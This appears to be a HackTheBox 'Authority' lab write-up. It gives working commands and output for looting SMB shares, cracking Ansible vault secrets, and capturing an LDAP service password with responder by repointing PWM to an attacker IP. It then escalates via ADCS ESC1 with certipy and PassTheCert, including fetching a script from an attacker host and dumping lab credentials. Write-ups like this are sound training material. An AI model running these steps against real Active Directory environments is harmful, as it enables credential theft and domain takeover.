

# HTB - Authority
___
```log
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-16 22:31:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2023-07-16T22:32:35+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2023-07-16T22:32:36+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2023-07-16T22:32:35+00:00; +4h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2023-07-16T22:32:36+00:00; +4h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/https-alt
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2023-07-14T22:10:42
|_Not valid after:  2025-07-16T09:49:06
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=ISO-8859-1
|     Content-Length: 82
|     Date: Sun, 16 Jul 2023 22:31:50 GMT
|     Connection: close
|     <html><head><meta http-equiv="refresh" content="0;URL='/pwm'"/></head></html>
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=ISO-8859-1
|     Content-Length: 82
|     Date: Sun, 16 Jul 2023 22:31:48 GMT
|     Connection: close
|     <html><head><meta http-equiv="refresh" content="0;URL='/pwm'"/></head></html>
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET, HEAD, POST, OPTIONS
|     Content-Length: 0
|     Date: Sun, 16 Jul 2023 22:31:48 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1936
|     Date: Sun, 16 Jul 2023 22:31:56 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid
|_ssl-date: TLS randomness does not represent time
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

## Foothold -> `svc_ldap`


```log
Sharename            Type      Comment
---------            ----      -------
ADMIN$               Disk      Remote Admin
C$                   Disk      Default share
Department Shares    Disk      
Development          Disk      
IPC$                 IPC       Remote IPC
NETLOGON             Disk      Logon server share 
SYSVOL               Disk      Logon server share
```

```bash
smbclient '//authority.htb/Department Shares' -N -c 'ls'
```
-> `NT_STATUS_ACCESS_DENIED listing \*`

```bash
smbclient '//authority.htb/Development' -N -c 'ls'
```
```log
Automation                          D        0  Fri Mar 17 14:20:40 2023
```
```bash
smbclient '//authority.htb/Development' -N -c 'mask "";recurse ON;prompt OFF;mget *'
```

```bash
cat ./Automation/Ansible/PWM/defaults/main.yml
```
```yml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```

```bash
cat main.yml | rg --multiline -e '\$ANSIBLE_VAULT;1.1;AES256$(\n.+)+' | sed 's/\s//g'
```
```bash
ansible2john ansible.hashes > ansible_vault.hash
```
```bash
john ansible_vault.hash -w=/usr/share/wordlists/rockyou.txt
```
```log
!@#$%^&*
```
put each ansible vault hash (`$ANSIBLE_VAULT;1.1;AES256`) its own file -> `ansible.hash.X`
```bash
for x in {1,2,3};do ansible-vault decrypt ansible.hash.$x;done
```
```log
DevT3st@123
pWm_@dm!N_!23
svc_pwm
```

https://authority.htb:8443/pwm/private/login
```log
5017 ERROR_DIRECTORY_UNAVAILABLE (all ldap profiles are unreachable; errors: ["error connecting as proxy user: unable to create connection: unable to connect to any configured ldap url, last error: unable to bind to ldaps://authority.authority.htb:636 as CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb reason: CommunicationException (authority.authority.htb:636; PKIX path building failed: sun.security.provider.certpath.SunCertPathBuilderException: unable to find valid certification path to requested target)"])
```
- the `svc_ldap` SA is used to run this [pwm](https://github.com/pwm-project/pwm) instance 

https://authority.htb:8443/pwm/private/config/login
login using `pWm_@dm!N_!23`

#### Forced Authentication via plaintext LDAP to steal the password for the `svc_ldap` SA

https://authority.htb:8443/pwm/private/config/editor
`LDAP` -> `LDAP Directories` -> `default` -> `Connection`  
`LDAP URLs` -> `ldap://10.10.16.8:389`  


setup `responder` to respond to the incoming ldap connection and capture the password for `svc_ldap`
```bash
sudo responder -I tun0
```

Click `Test LDAP Profile` to force the `svc_ldap` SA to authenticate to your host using the plaintext ldap protocol. This way, `responder` can capture the plaintext password for the `svc_ldap` SA.

responder result:
```log
[LDAP] Cleartext Client   : 10.129.33.195
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

```bash
evil-winrm -i 'authority.htb' -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```

## PrivEsc -> `Administrator`

Certify result:
```log
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> .\Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
    Cert End Date                 : 4/23/2123 9:56:25 PM
    Cert Chain                    : CN=AUTHORITY-CA,DC=authority,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
      Allow  ManageCA, ManageCertificates               HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Domain Computers          S-1-5-21-622327497-3269355298-2248959698-515
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
      Object Control Permissions
        Owner                       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
        WriteOwner Principals       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteDacl Principals        : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteProperty Principals    : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519


Certify completed in 00:00:09.5986008
```

The `CorpVPN` certificate template is vulnerable to ADCS `ESC1`.

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin

The `msPKI-Certificates-Name-Flag` field with the value of `ENROLLEE_SUPPLIES_SUBJECT` indicates that the user, who is requesting a new certificate based on this certificate template, can request the certificate for another user, meaning ANY user, including domain administrators.

By joining a `machine account` you control to the domain, using that domain joined machine account, you can request a certificate for the domain administrator using the vulnerable `CorpVPN` certificate template, and therefore escalate to domain administrator as you can use that certificate for login authentication.

1. Create and Join your `Machine Account` to the domain.
2. Request a certificate for the `Domain Administrator` using the `CorpVPN` certificate template.
3. Fail miserably trying to login using the certificate.
	1. Login Fail via `Evil-Winrm` because the ssl port is closed.
	3. Login Fail via `PKINITtools` -> `gettgtpkinit.py` because the CA does not allow Kerberos authentication.
4. Achieve GREAT SUCCESS by using `PassTheCert` for login.

```bash
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```
```powershell
iwr 10.10.16.8/Powermad.ps1 -o powermad.ps1
Import-Module .\powermad.ps1
```
create and join your machine account to the domain using [powermad -> New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)
```powershell
$securePassword = ConvertTo-SecureString 'P@s$w0rd!' -AsPlainText -Force; 
New-MachineAccount -MachineAccount "cringe" -Password $securePassword;
```

use your machine account to request a certificate for the domain administrator with the vulnerable `CorpVPN` certificate template using [certipy](https://github.com/ly4k/Certipy):
```bash
 certipy req -u 'cringe$' -p 'P@s$w0rd!' -ca 'AUTHORITY-CA' -target 'authority.htb' -template 'CorpVPN' -upn 'administrator@authority.htb' -dns 'authority.htb'
```

https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx#for-linux
```bash
openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out administrator_authority.crt
openssl rsa -in administrator_authority.pfx -out administrator_authority.key
```

```bash
evil-winrm -i 'authority.htb' -u 'Administrator' -p '' -S -c administrator_authority.crt -k administrator_authority.key
```
```log
Error: An error of type Errno::ECONNREFUSED happened, message is Connection refused - Connection refused - connect(2) for "authority.htb" port 5986 (authority.htb:5986)
```
- cannot use winrm with the certificate because the ssl port for winrm: `5986` is closed

```bash
python3 ./gettgtpkinit.py 'authority.htb/administrator' administrator.ccache  -cert-pfx ./administrator_authority.pfx
```
```log
2023-07-16 18:38:19,390 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-07-16 18:38:19,437 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/void/PKINITtools/./gettgtpkinit.py", line 349, in <module>
    main()
  File "/home/void/PKINITtools/./gettgtpkinit.py", line 345, in main
    amain(args)
  File "/home/void/PKINITtools/./gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
          ^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)"
```

https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html
https://github.com/AlmondOffSec/PassTheCert/tree/main/Python
```bash
python3 ./passthecert.py -domain 'authority.htb' -dc-host 'authority.htb' -crt ./administrator_authority.crt -key ./administrator_authority.key -action 'modify_user' -target 'Administrator' -new-pass 'P@s$w0rd!' 
```

```bash
evil-winrm -i 'authority.htb' -u 'administrator' -p 'P@s$w0rd!'
```

```log
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
authority
```

___

```log
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a15217bb5af3046c87b5bb6afa7b193e
```
